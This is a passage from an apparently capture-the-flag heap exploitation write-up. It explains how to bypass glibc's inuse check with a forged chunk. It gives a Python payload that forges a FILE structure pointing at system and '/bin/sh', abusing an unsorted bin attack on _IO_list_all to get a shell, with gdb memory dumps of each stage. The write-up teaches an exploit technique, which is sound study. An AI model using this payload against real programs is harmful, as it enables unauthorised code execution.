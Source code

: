 ```c
```

```c
/* extract p's inuse bit */
#define inuse(p)							      \
  ((((mchunkptr) (((char *) (p)) + chunksize (p)))->mchunk_size) & PREV_INUSE)
```

We can bypass that check by crafting a fake chunk at offset `chunk y + size(chunk y)`, meaning `0x6031a0`, with size whose last
bit will be set (i.e `0x31` for instance). Which is what we did before but told you to ignore it for the time being.

```
0x6031a0:	0x0000000000000031	0x0000000000000031 <-- fake chunk
0x6031b0:	0x0000000000000031	0x0000000000000031
0x6031c0:	0x0000000000000031	0x0000000000000031
0x6031d0:	0x0000000000000000	0x0000000000000000
0x6031e0:	0x0000000000000000	0x0000000000000000
0x6031f0:	0x0000000000000000	0x0000000000000000
0x603200:	0x0000000000000000	0x0000000000000000
0x603210:	0x0000000000000000	0x0000000000020df1 <-- top chunk
```

Time to perform the attacks.

```python
fstream  = "/bin/sh\x00"
fstream += p64(0x61)
fstream += p64(0xddaa) 
# bk => _IO_list_all
fstream += p64(iolist-0x10)
fstream += p64(2)
fstream += p64(3)
fstream  = fstream.ljust(0x60,"\x00")
fstream += p64(0) * 3
fstream += p64(system)
fstream  = fstream.ljust(0xd8,"\x00")
fstream += p64(vtable)
# musable() will use the chunk's size to read in data.
# Because we have overwritten it with a big enough size
# the data will overlap the unsorted bin which happens 
# be right after the currently edited chunk.
# Unsorted bin attack => _IO_list_all attack
edit(acc, p64(system), 3, p64(0)*12 + fstream)
```

```
0x6030b0:	0x0068732f6e69622f	0x0000000000000061 <-- unsorted chunk 
0x6030c0:	0x000000000000ddaa	0x00007ffff7dd2510 <-- _IO_list_all - 0x10
0x6030d0:	0x0000000000000002	0x0000000000000003
0x6030e0:	0x0000000000000000	0x0000000000000000
0x6030f0:	0x0000000000000000	0x0000000000000000
0x603100:	0x0000000000000000	0x0000000000000000
0x603110:	0x0000000000000000	0x0000000000000000
0x603120:	0x0000000000000000	0x00007ffff7a52390 <-- system
0x603130:	0x0000000000000000	0x0000000000000000
0x603140:	0x0000000000000000	0x0000000000000000
0x603150:	0x0000000000000000	0x0000000000000000
0x603160:	0x0000000000000000	0x0000000000000000
0x603170:	0x0000000000000000	0x0000000000000000
0x603180:	0x0000000000000000	0x0000000000602118 <-- vtable ptr
```
